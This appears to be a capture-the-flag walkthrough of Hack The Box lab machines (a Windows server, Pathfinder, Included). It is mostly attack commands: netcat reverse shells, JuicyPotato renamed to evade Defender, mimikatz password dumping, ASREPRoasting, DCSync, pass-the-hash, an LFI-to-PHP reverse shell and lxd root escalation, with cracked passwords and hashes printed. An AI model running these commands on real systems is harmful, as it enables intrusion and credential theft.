From within the meterpeter session, let’s move to oyr local Tools
directory


We can use the **lcd** command ( **lcd** stands for "**Local Change
Directory**", which we use to navigate to the local folder where
*nc.exe* is located.):


So, lwt’s move to the “/home/kali/HTB/StartingPoint/Tools” folder where
the “nc.exe” binary is located


We then navigate to a writeable directory on the server (in our case
**C:/inetpub/wwwroot/wordpress/wp-content/upload**s) and upload netcat.


The command to use is the “upload” command: **upload nc.exe**


We can see now the nc.exe program in the “upload” folder


### &#9702; ***Using Netcat***

On another terminal we can now launch a listener
``` shell
  ------------------
  **nc -lvp 1234**
  ------------------
```


Next, we can execute the following command into the meterpreter session
``` shell
  --------------------------------------------------------
  **execute -f nc.exe -a "-e cmd.exe 10.10.14.16 1234"**
  --------------------------------------------------------
```


And we get a netcat shell:


### &#9702; Privilege Escalation
======================

Running the “**sysinfo**” command on the meterpreter session, we notice
that this is a Windows Server 2016 OS, which is vulnerable to the
*Rotten Potato* exploit.


Let’s download the “**JuicyPotato.exe**” binary frome here :
*https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe*

Let’s save the binary into our “**Tools”** folder


***NOTE:*** Sometimes browser does not allow the download


In this situation we can use the following command:
``` shell
  -------------------------------------------------------------------------------------------
  **sudo wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe**
  -------------------------------------------------------------------------------------------
```
Then with the lcd command we move to the “**Tools”** folder from the
meterpreter shell and we procede with the upload of the
“JuicyPotato.exe” into the “**uploads”** folder.


***NOTE:*** We will have to rename the Juicy Potato executable to
something else, otherwise it will be picked up by Windows Defender.

*From the meterpeter session we can use this command:*
``` shell
  -------------------------------
  **mv JuicyPotato.exe js.exe**
  -------------------------------
```


From the reverse shell on a Windows Machine we can use this command:
``` shell
  -----------------------------------
  **rename JuicyPotato.exe js.exe**
  -----------------------------------
```


From our shell, we can create a batch file that will be executed by the
exploit, and return a SYSTEM shell. Let's add the following contents to
***shell.bat***:
``` shell
  ------------------------------------------------------------------------------------------------------------------------------
  **echo START C:\\inetpub\\wwwroot\\wordpress\\wp-content\\uploads\\nc.exe -e powershell.exe 10.10.14.2 1111 > shell.bat**
  ------------------------------------------------------------------------------------------------------------------------------
```


Let's start, from another terminal, another netcat listener:


Next, we execute the netcat shell using the JuicyPotato binary(js.exe):
``` shell
  ---------------------------------------------------------------------------------------------
  **js.exe -t \* -p C:\\inetpub\\wwwroot\\wordpress\\wp-content\\uploads\\shell.bat -l 1337**
  ---------------------------------------------------------------------------------------------
```


***NOTE:*** if our payload is not working, we can use another CLSID
``` shell
  ---------------------------------------------------------------
  Option to add : **-c {bb6df56b-cace-11dc-9992-0019b93a3a84}**
  ---------------------------------------------------------------
```
Now on the listener terminal we have a shell as “**nt
authority\\system**”


And we can have access to the **“root.txt”** file


### &#9702; Post Exploitation
===================

We can now try to dump cache password. using a tool named “**Mimikatz”**


The 64 bit versione is the one we need


We use the meterpeter session to upload the “mimikatz.exe” file:


As a “**nt authority\\system**” we execute mimikatz and use the
**sekurlsa** command to extract logon passwords

``` shell
  --------------------
  **./mimikatz.exe**
  --------------------
```


``` shell
  ------------------------------
  **sekurlsa::logonpasswords**
  ------------------------------
```


And we find the password “**Password1234!”** for domain user
“**Sandra”**.


## &#9656; PATHFINDER 

<ul>
<li>Machine : <b>Pathfinder</b> </li>
<li>Ip: <b>10.10.10.29</b></li>
</ul>


### &#9702; Enumeration
=============

We are going to use “masscan” this time
```
  --------------------------------------------------------
  **masscan -p 1-65535 10.10.10.30 -e tun0 --rate=1000**
  --------------------------------------------------------
```


Port **88** is typically associated with Kerberos

Port **389** with LDAP, which indicates that this is a Domain
Controller.

We note that WinRM is enabled on port **5985**.

We can attempt to enumerate Active Directory using the credentials we
obtained in a previous machine:

-   **sandra**

-   **Password1234!**

We can achieve this using a python bloodhound injester, but first, we
need to install **neo4j** and **BloodHound**.

``` shell
  ----------------------------
  **apt install neo4j**
  
  **apt install bloodhound**
  ----------------------------
```
Let’s install now the python bloodhound injester, tnat can be found at
*here*:

-   *https://github.com/fox-it/BloodHound.py*

It can also be installed using pip:

``` shell
  ----------------------------
  **pip install bloodhound**
  ----------------------------
```
Let’s run the command

``` shell
  ---------------------------------------------------------------------------------------------------------------------------
  **bloodhound-python -d megacorp.local -u sandra -p "Password1234!" -gc pathfinder.megacorp.local -c all -ns 10.10.10.30**
  ---------------------------------------------------------------------------------------------------------------------------
```


The BloodHound injester created some json files ready to be imported
into BloodHound.


Next, we need to configure the neo4j service. We can accomplish this by
running the following command

``` shell
  -------------------
  **neo4j console**
  -------------------
```


You will be then prompted to insert or change(at first login) your
password.


If connected we will see


Next, we start BloodHound

```shell
  -----------------------------
  **bloodhound --no-sandbox**
  -----------------------------
```


Ensure you have a connection to the database; indicated by a ✔️ symbol
at the top of the three input fields. The default username is neo4j with
the password previously set.


Below before importing the .json files:


Opening BloodHound, we can drag and drop the .json files, and BloodHound
will begin to analyze the data.


We can select various queries, of which some very useful ones are
**Shortest Paths to High value Targets** and **Find Principles with
DCSync Rights**.

While the latter query returns this:


Let’s select the domain “MEGACORP.LOCAL”


The query will generate the below graph for domain “MEGACORP.LOCAL”


We can see that the **svc\_bes** has **GetChangesAll** privileges to the
domain. This means that the account has the ability to request
replication data from the domain controller, and gain sensitive
information such as user hashes.


### &#9702; Lateral Movement
=====================

It's worth checking if Kerberos pre-authentication has been disabled for
this account, which means it is vulnerable to *ASREPRoasting*. We can
check this using a tool such as Impacket's GetNPUsers.
```
  --------------------------------------------------------------------------------
  **GetNPUsers.py megacorp.local/svc\_bes -request -no-pass -dc-ip 10.10.10.30**
  --------------------------------------------------------------------------------
```


Below out TGT ticket
``` shell
  ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
  **\$krb5asrep\$23\$svc\_bes@MEGACORP.LOCAL:0969b177c87205436a4ef15e3227c3af\$f967e09d463ebcfa60a01c5ddb3606de78b62d8629e8de55578236534abf7a8442f3b07dfe0b8fa622dceabb66586c99dec8a3e4629a099fb01acc5721e0ca5ebf59fa0f6841f456a7a855ded8fb2b5860066cca671c8ea362c335c5a1a0bde1a9091b629535fec165388e46b3069c002dd45569a89f6d30f9139911968364ae84bf06de3d39cdcbb3a44b373f71c3ff3f030f3896fa4f698693889e8677136e942d9ba1e3175dc70e67f1b998d52170f3347dcc766fda831f9cd5d1f7d94706f3b423a9bf75869a6772280f69d2f2855a3b855ee221f053478f7e54c98c7fde493f85ce3cec16e47f0c20ced4a65b14**
  ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
```
Once obtained the TGT ticket for the **svc\_bes,** let’s save it into a
file called hash(it could be any name).


We could have also used:
``` shell
  -----------------------------------------------------------------------------------------------------
  **GetNPUsers.py megacorp.local/svc\_bes -request -no-pass -dc-ip 10.10.10.30 | grep krb > hash**
  -----------------------------------------------------------------------------------------------------
```


We will use JTR in conjunction with rockyou.txt to obtain the plaintext
password (but we could have also used Hashcat)
``` shell
  ----------------------------------------------------------
  **john hash -wordlist=/usr/share/wordlists/rockyou.txt**
  ----------------------------------------------------------
```


Below the password for **svc\_bes : Sheffield19**


It is now possible to access the server as **svc\_bes** using **WinRM **

(With the **nmap scan** we noted that WinRM was enabled on port
**5985)**

<br>

 **Let’s install “*evil-winrm*” (Installation directly as ruby gem)**
```
  ----------------------------
  **gem install evil-winrm**
  ----------------------------
```


And run it against 10.10.10.30 using “svc\_bes” credentials
```
  ----------------------------------------------------------
  **evil-winrm -i 10.10.10.30 -u svc\_bes -p Sheffield19**
  ----------------------------------------------------------
```


### &#9702; Privilege Escalation
=========================


In order to leverage the **GetChangesAll** permission, we can use
Impacket's *secretsdump.py* to perform a *DCSync* attack and dump the
NTLM hashes of all domain users.
```
  ---------------------------------------------------------------------------------------
  **secretsdump.py -dc-ip 10.10.10.30 MEGACORP.LOCAL/svc\_bes:Sheffield19@10.10.10.30**
  ---------------------------------------------------------------------------------------
```


We can see the default domain Administrator NTLM hash


We can use this in a *PTH attack* (Pass-the-Hash attack) to gain
elevated access to the system.

For this, we can use Impacket's **psexec.py** as follow:
```
  ----------------------------------------------------------------------------------------------------
  **psexec.py megacorp.local/administrator@10.10.10.30 -hashes <NTML hash>:<NTLM hash>**
  ----------------------------------------------------------------------------------------------------
```
For <**NTML hash**>:<**NTLM hash**> we will use:

-   **NTML hash --> aad3b435b51404eeaad3b435b51404ee**

-   **NTLM hash --> 8a4b77d52b1845bfe949ed1b9643bb18**
```
  ----------------------------------------------------------------------------------------------------------------------------------
  **psexec.py megacorp.local/administrator@10.10.10.30 -hashes aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18**
  ----------------------------------------------------------------------------------------------------------------------------------
```


An as we can see we gain elevated access to the system


## &#9656; INCLUDED (Linux)


<ul>
<li>Machine : <b>Included (Linux)</b> </li>
<li>Ip: <b>10.10.10.55</b></li>
</ul>

### &#9702; Enumeration
=============
``` shell
  ---------------------------------------------------------------------
  nmap -A -v 10.10.10.55
  ---------------------------------------------------------------------
```


``` shell
  ---------------------------------------------------------------------
  PORT STATE SERVICE VERSION
  
  **80/tcp** open http Apache httpd 2.4.29 ((Ubuntu))
  
  | http-methods:
  
  |\_ Supported Methods: GET HEAD POST OPTIONS
  
  |\_http-server-header: Apache/2.4.29 (Ubuntu)
  
  | http-title: Site doesn't have a title (text/html; charset=UTF-8).
  
  |\_Requested resource was http://10.10.10.55/?file=index.php
  
  |\_https-redirect: ERROR: Script execution failed (use -d to debug)
  ---------------------------------------------------------------------
```
From a TCP scan we found only port 80 (Apache httpd 2.4.29 ((Ubuntu)))

We can navigate to the website in a browser.


Let’s try scanning the UDP ports

``` shell
  -------------------------
  nmap -sU -v 10.10.10.55
  -------------------------
```


``` shell
  -------------------------------
  Not shown: 999 closed ports
  
  PORT STATE SERVICE
  
  **69/udp open|filtered tftp**
  -------------------------------
```

The UDP scan found **port 69** to be open, which hosts the **TFTP**
service.

TFTP or "Trivial File Transfer Protocol", is similar to FTP but much
simpler. It provides functionality only for uploading or downloading
files from a server.

Let's see if we can connect to TFTP and upload a file.

We first create a file named “**test.txt”**



We connect and confirm that we can upload files.


### &#9702; LFI(Local File Inclusion)
===========================

Let’s check if the URL of the website
“**http://10.10.10.55/?file=index.php**" is vulnerable to ***Local File
Inclusion*.**



We can test by changing the URL to the following:
```
  -----------------------------------------------------
  **http://10.10.10.55/?file=../../../../etc/passwd**
  -----------------------------------------------------
```
This is successful, and **passwd** contents are returned by the server.


### &#9702; Foothold
=============

We can try upload and execute a “PHP reverse shell” by combining the LFI
vulnerability with the TFTP service. This happens due to the inclusion
of the PHP code by the vulnerable page, which results in it's execution.

First we have to modify the PHP reverse shell which cane be taken from
*here* if not present on our kali system.


Let’s copy the file into our folder with name “**rev.php**”


As usual, let’s modify the code for our needs:


Once changed the IP address and the port, we upload our PHP reverse
shell.


Let's start a netcat listener before navigating to the shell.


Next, we can use the LFI to access the reverse shell.

-   The *default TFTP root folde*r is **/var/lib/tftpboot.**

Navigating to
*http://10.10.10.55/?file=../../../../var/lib/tftpboot/rev.php*, due to
the inclusion of the PHP code by the vulnerable page, will results in
the PHP reverse shell execution.


***We could have also used the “curl” tool as follow:***
``` shell
  ------------------------------------------------------------------------
  **curl http://10.10.10.55/?file=../../../../var/lib/tftpboot/rev.php**
  ------------------------------------------------------------------------
```


And we get the reverse shell:


The low privilged www-data user isn't allowed to read user files, let’s
update the shell as www-data
``` shell
  ---------------------------------------------------------------------------------------
  **SHELL=/bin/bash script -q /dev/null\
  Ctrl-Z\
  stty raw -echo\
  fg\
  reset\
  xterm**
  ---------------------------------------------------------------------------------------
```


Below some other ways to spwan a TTY shell. The top 3 would be most
successful in general for spawning from the command line.

-   **python3 -c 'import pty; pty.spawn("/bin/sh")'**

-   **echo os.system('/bin/bash')**

-   **/bin/sh -i**

-   **perl —e 'exec "/bin/sh";'**

-   **perl: exec "/bin/sh";**

-   **ruby: exec "/bin/sh"**

-   **lua: os.execute('/bin/sh')**

-   (From within IRB) **exec "/bin/sh"**

-   (From within vi) **:!bash**

-   (From within vi) **:set shell=/bin/bash:shell**

-   (From within nmap) **!sh**

Many of these will also allow you to escape *jail shells*

From the etc/passwd file we see that we can see there is a user “mike”


We can “su” to the user mike with the password founded on the previous
machine (Pathfinder).


As shown below, once updated the shell as www-data, we can logged in as
mike.



At location /home/mike we can find the user.txt file


We also notice that mike is a **lxd** member


The LXD group is a high-privileged linux group; a member of the local
“lxd” group can instantly escalate the privileges to root on the host
operating system.

### &#x25B9; LXD
#### &#9702; ***Introduction to LXD and LXC***

This is irrespective of whether that user has been granted sudo rights
and does not require them to enter their password. *The vulnerability
exists even with the LXD snap package*

LXD is a root process that carries out actions for anyone with write
access to the LXD UNIX socket. It often does not attempt to match the
privileges of the calling user. There are multiple methods to exploit
this.

One of them is to use the LXD API to mount the host’s root filesystem
into a container which is going to use in this post. This gives a
low-privilege user root access to the host filesystem. 

#### &#9702; ***Linux Container (LXC)*** 
*** Are often considered as a lightweight***
Virtualization technology that is something in the middle between a
chroot and a completely developed virtual machine, which creates an
environment as close as possible to a Linux installation but without the
need for a separate kernel.

#### &#9702; ***Linux daemon (LXD)*** 
***is the lightervisor, or lightweight container***
Hypervisor. LXD is building on top of a container technology called LXC
which was used by Docker before. It uses the stable LXC API to do all
the container management behind the scene, adding the REST API on top
and providing a much simpler, more consistent user experience.

#### &#9702; ***Container Technology*** 

Container technology comes from the container, is a procedure to
assemble an application so that it can be run, with its requirements, in
isolation from other processes container applications with names like
Docker and Apache Mesos ‘ popular choices have been introduced by major
public cloud vendors including Amazon Web Services, Microsoft Azure and
Google Cloud Platforms.


### &#9702; LXD Privilege Escalation
==========================

Privilege escalation through lxd requires the access of local account.

**Note: the most important condition is that the user should be a member
of lxd group (***in our case is 108, but it could have been any other
number***)**


First, we have create an image for lxd, thus we first need to clone on
our local machine the following build-alpine repository
``` shell
  ---------------------------------------------------------------------------------------
  git clone https://github.com/saghul/lxd-alpine-builder.git
  ---------------------------------------------------------------------------------------
```


We move into the lxd-alpine-builder


And execute the “./build-alpine” file


On running the above command, a “**tar.gz**” file is created. Now we
have to transferred this “tar.gz” file from the attacker machine to the
host (victim) machine.

We can use the following python command to start a local webserver
``` shell
---------------------------------------------------------------------------------------
python -m SimpleHTTPServer 8888
---------------------------------------------------------------------------------------
```



On the host(victim) machine we can download the file “**tar.gz**” using
the command “wget” as follow:

-   First we move into the /tmp folder

-   Then we run the command

 wget 10.10.14.3:8888/alpine-v3.10-x86\_64-20191008\_1227.tar.gz

We will see that our file has been transferred/downloaded.


Next, we run the following commands to get the root.

First we built the image and can be added as an image to LXD as follows:

``` shell
  ---------------------------------------------------------------------------------------
  lxc image import ./alpine-v3.12-x86\_64-20200728\_1438.tar.gz --alias <aliasName>
  
  lxc image import ./alpine-v3.12-x86\_64-20200728\_1438.tar.gz --alias rootimage
  ---------------------------------------------------------------------------------------
```


In the above command we used “rootimage” as ALIAS but it could ahve been
any name


We can use the list command to check the list of images
``` shell
  ---------------------------------------------------------------------------------------
  **lxc image list**
  ---------------------------------------------------------------------------------------
```


The command above will let us have access to the entire filesystem from
within the container.
``` shell
  ---------------------------------------------------------------------------------------
  *lxc init <aliasName> ignite -c security.privileged=true*
  
  **lxc init rootimage ignite -c security.privileged=true**
  
  **lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true**
  ---------------------------------------------------------------------------------------
```
The next set of commands start the container and drop us into a shell
(as root) on it.
``` shell
  ---------------------------------------------------------------------------------------
  **lxc start ignite**
  
  **lxc exec ignite /bin/sh**
  ---------------------------------------------------------------------------------------
```
We can now navigate to /mnt/root/root/ and read root.txt along with
login.sql, which reveals credentials.


The **login.sql** file reveals some credentials


